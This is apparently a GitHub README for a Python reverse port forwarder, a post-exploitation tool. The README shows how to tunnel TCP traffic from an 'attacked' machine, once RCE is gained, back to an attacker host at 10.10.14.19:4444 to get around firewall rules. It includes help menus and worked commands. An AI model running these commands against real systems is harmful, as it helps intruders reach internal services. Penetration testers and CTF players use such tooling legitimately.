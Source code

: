 # python-reverse-port-forwarder

*linux and windows binaries available*

## Summary

This tool comes in two pieces that have to run *simultaneosly* on different machines :
- **local_portfwd**
- **remote_portfwd**
  
The concept is simple.  
These programs are creating a tunnel for tcp packets between two machines.    
The ***local port forward*** program should be running on your local machine, after being started it will be listening for the incoming tunnel connection handshake and on success it will open a service port.  
  
- **I've choosen a reverse connection logic (remote-attacked connecting to local-attacker) instead of a simple bind beacause it's better at escaping firewall rules.**  
  
Once the connection is established you are ready to forward packets to the remote machine by simply sending requests to the PRPF service address (ex. `localhost:4444`).  
Then the requests will be forwarded to the endpoint of the tunnel which is the ***remote port forward*** program.  
The remote forward script is a simple proxy and it will act on behalf of you, forwarding packets to the target address (which you must specifiy during startup).  
Look at bottom page for a simple example.  

## Help menu

`remote_portfwd.py` helper menu :
```shell
$ ./remote_portfwd.py -h
usage: remote_portfwd.py [-h] thost:tport fhost:fport

----------------------------------------
 Python Reverse Port Forwarder (Remote)
----------------------------------------
Welcome to the PRPF, a simple port forwarder written in python.
This code should be running on the remote (attacked) machine.
A tunnel will be created to the thost:tport address using a reverse 
connection logic, to bypass firewall. The data coming from the tunnel
will then be sent over a new connection to the forward address.
The tunnel address should be your PRPF local tunnel address.
Example : ./remote_portfwd.py localhost:4444 google.com:80
----------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Your local address to be contacted
  fhost:fport  The remote address to forward to

optional arguments:
  -h, --help   show this help message and exit
```
  
`local_portfwd.py` helper menu :
```shell
 $ ./local_portfwd.py -h
usage: local_portfwd.py [-h] thost:tport rhost:rport

---------------------------------------
 Python Reverse Port Forwarder (Local)
---------------------------------------
Welcome to the PRPF, a simple port forwarder written in python.
This code should be running on local (attacker) machine.
The program will be listening for the incoming tunnel connection from
remote_portfwd.py (thost:tport).
After the connection is established the PRPF is ready to forward data. 
Just send data to the service address.
---------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Tunnel address to listen to
  rhost:rport  The rppf address to listen to

optional arguments:
  -h, --help   show this help message and exit
```

## Simple use case

Let's suppose I want to get access to a web server listeining to 127.0.0.1:80 in a remote machine.  
Obviously I need rce, and a way to upload `remote_portfwd.py`.  
Once I got the program on the remote machine I can begin the attack.  
*Order is not important, you can run before or after `local_portfwd.py`. No matter.*  
  
On remote 
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)

```
Where `10.10.14.19` is my local IP address and `4444`  is the port where I want to create the RPPF tunnel.  
  
Then on your local machine
```shell
$ ./local_portfwd.py 10.10.14.19:4444 localhost:4242
Waiting for incoming tunnel connection...
Tunnel created
Opening rppf listening service...
--------------------------------------------
RPPF Service opened on ('localhost', 4242)
Ready to transfer data

```
Now the RPPF forward service is **ready and listening** on port 4242.  
`10.10.14.19` is the IP to bind to, can be also `0.0.0.0` to listen on every interface.
  
If you go back to remote console the output should have been updated :
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)
tunnel created
opening forward connection to ('localhost', 80)
connection created
--------------------------------------------
Ready to transfer data

```
This means that the also the remote service is **ready and running**.  
  
Now you can just type `localhost:4242` in your web browser to connect to the site as a localhost. :smile:  
  
***NOTE** : For an http request you may need to modify the HOST header (just intercept the request before being sent to layer 4).*
